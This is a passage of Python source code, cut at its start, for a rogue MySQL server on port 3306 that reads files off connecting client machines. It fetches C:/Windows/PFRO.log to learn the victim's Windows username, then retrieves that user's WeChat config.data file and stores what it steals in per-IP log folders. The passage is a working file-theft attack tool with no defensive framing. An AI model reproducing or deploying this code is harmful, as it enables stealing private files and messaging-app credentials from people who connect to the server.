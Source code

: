                     conn.sendall(wantfile)  
                    content = conn.recv(99999999)  
                    # print(len(content))  
                    conn.close()  
                    if len(content) > 4:  
                        if 'PFRO' in filename:  
                            with open(logpath + "/PFRO.log", "w") as f:  
                                f.write(content)  
                                f.close()  
                            return True  
                        else:  
                            with open(logpath + "/" + filename.replace("/", "_").replace(":", ""), "w") as f:  
                                f.write(content)  
                                f.close()  
                            return True  
                    else:  
                        return False  
                except Exception as e:  
                    print (e)  
        except Exception as e:  
            print (e)  
      
    def run():  
        port = 3306  
        sv = socket.socket()  
        sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)  
        sv.bind(("",port))  
        sv.listen(100)  
      
        while True:  
            conn, address = sv.accept()  
            logpath = os.path.abspath('.') + "/log/" + address[0] + '/PFRO.log'  
            if os.path.exists(logpath):  
                with open(logpath, 'r')as f:  
                    content = f.read()  
                f.close()  
                content = content.replace('\n','').replace('\r','').replace(' ','').replace('\t','').replace('\00','')  
                try:  
                    res = re.findall(r'Users\\(.*)\\', content)[0]  
                    username = res.split('\\')[0]  
                    line = 'C:/Users/' + username + '/Documents/WeChat Files/All Users/config/config.data'                
                    if not os.path.exists(os.path.abspath('.') + "/log/" + address[0]+'/'+line.replace("/", "_").replace(":", "")):  
                        res = mysql_get_file_content(line,conn,address)  
                        if res:  
                            print ("Read Success! ---> " + line)  
                        else:  
                            print ("Not Found~ ---> " + line)  
                    else:  
                        conn.close()  
                except Exception as e:  
                    print(e)  
            else:  
                line = 'C:/Windows/PFRO.log'  
                res = mysql_get_file_content(line,conn,address)  
                if res:  
                    print ("Read Success! ---> " + line)  
                else:  
                    print ("Not Found~ ---> " + line)  
    